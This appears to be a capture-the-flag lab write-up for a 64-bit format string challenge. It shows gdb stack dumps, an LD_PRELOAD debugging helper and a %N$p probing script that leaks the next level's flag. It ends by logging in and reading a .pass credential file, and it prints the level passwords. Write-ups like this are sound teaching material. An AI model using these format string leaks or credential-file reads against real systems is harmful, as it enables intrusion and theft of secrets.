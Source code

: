 # Level02 - 64 bits - Format string attack

## Local script usage

Requirements:

- `gdb-peda`
- `getenv64`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level01/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level02 | `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` |
| level02 | `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

We notice the vulnerable printf that does not use format string and print directly the variable `username`

For example:

```shell
~/level02
--[ Username: AAAA
--[ Password: BBBB
  AAAA does not have access!

~/level02
--[ Username: %s # <= Format string vulnerability
--[ Password: BBBB
*****************************************
BBBB does not have access!
```

Unfortunately it difficult to debug the stack because of `fopen`, `fread` and `fclose` that try to open, read and close the level03's flag.

We can use [LD_PRELOAD trick](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/) to mock those functions.

(This step is not really necessary, but it is better to illustrate)

We wrote a file for this job: [debugHelper.c](./debugHelper.c)

We have to send the file with `scp` and then compile it.

```shell
# on local machine
scp -P $OR_PORT -r debugHelper.c level02@$OR_HOST:/tmp/debugHelper.c

# on remote machine
gcc -shared -fPIC -ldl debugHelper.c -o debugHelper.so
export LD_PRELOAD=/tmp/debugHelper.so
```

```shell
gdb-peda$ b*main+654 # before vulnerable printf
gdb-peda$ run < <(echo "BBBBBB\nCCCCCC")
telescope 25

[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe390 --> 0x7fffffffe598 --> 0x7fffffffe7f2 ("/home/users/level02/level02")
0008| 0x7fffffffe398 --> 0x1f7ff9f10
0016| 0x7fffffffe3a0 --> 0x434343434343 ('CCCCCC')
0024| 0x7fffffffe3a8 --> 0x0
0032| 0x7fffffffe3b0 --> 0x0
0040| 0x7fffffffe3b8 --> 0x0
0048| 0x7fffffffe3c0 --> 0x0
0056| 0x7fffffffe3c8 --> 0x0
0064| 0x7fffffffe3d0 --> 0x0
0072| 0x7fffffffe3d8 --> 0x0
0080| 0x7fffffffe3e0 --> 0x0
0088| 0x7fffffffe3e8 --> 0x0
0096| 0x7fffffffe3f0 --> 0x0
0104| 0x7fffffffe3f8 --> 0x0
0112| 0x7fffffffe400 --> 0x100000000
0120| 0x7fffffffe408 --> 0x0
0128| 0x7fffffffe410 ('A' <repeats 40 times>) # <=== fake Flag
0136| 0x7fffffffe418 ('A' <repeats 32 times>)
0144| 0x7fffffffe420 ('A' <repeats 24 times>)
0152| 0x7fffffffe428 ('A' <repeats 16 times>)
0160| 0x7fffffffe430 ("AAAAAAAA")
0168| 0x7fffffffe438 --> 0x0
0176| 0x7fffffffe440 --> 0x424242424242 ('BBBBBB')
0184| 0x7fffffffe448 --> 0x0
0192| 0x7fffffffe450 --> 0x0
[------------------------------------------------------------------------------]
```

We can see the fake flag at the address `0x7fffffffe410`.

As we don't know exactly the position of the the flag, we will use a format string attack to find the flag. We will test several position using a loop.

Lets run [our script](./script.sh)

```shell
./script.sh
  %00$p: %0$p                 | xxd -r | rev  =>
  %01$p: 0x7fffffffe970       | xxd -r | rev  =>
  %02$p: (nil)                | xxd -r | rev  =>
  %03$p: 0x70                 | xxd -r | rev  =>  p
  %04$p: 0x2a2a2a2a2a2a2a2a   | xxd -r | rev  =>  ********
  %05$p: 0x2a2a2a2a2a2a2a2a   | xxd -r | rev  =>  ********
  %06$p: 0x7fffffffeb68       | xxd -r | rev  =>
  %07$p: 0x1f7ff9a08          | xxd -r | rev  =>
  %08$p: 0x64726f7773736170   | xxd -r | rev  =>  password
  %19$p: (nil)                | xxd -r | rev  =>
  (...)
  %20$p: 0x100000000          | xxd -r | rev  =>
  %21$p: (nil)                | xxd -r | rev  =>
  %22$p: 0x756e505234376848   | xxd -r | rev  =>  Hh74RPnu
  %23$p: 0x45414a3561733951   | xxd -r | rev  =>  Q9sa5JAE
  %24$p: 0x377a7143574e6758   | xxd -r | rev  =>  XgNWCqz7
  %25$p: 0x354a35686e475873   | xxd -r | rev  =>  sXGnh5J5
  %26$p: 0x48336750664b394d   | xxd -r | rev  =>  M9KfPg3H

  It should be:  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  (...)
```

We have something like 40 chars in a row. It should be the flag.

Lets try

```shell
~/level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username:
  --[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  *****************************************
  Greetings, !
$ whoami
  level03
$ cat /home/users/level03/.pass
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [LD_PRELOAD Trick](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/)
- [LD_PRELOAD Trick (with call to real function)](https://catonmat.net/simple-ld-preload-tutorial-part-two)

- [Man exit](https://linux.die.net/man/3/exit)
- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man fclose](https://linux.die.net/man/3/fclose)
- [Man fopen](https://linux.die.net/man/3/fopen)
- [Man fread](https://linux.die.net/man/3/fread)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncmp](https://linux.die.net/man/3/strncmp)
- [Man strcspn](https://linux.die.net/man/3/strcspn)
- [Man system](https://linux.die.net/man/3/system)
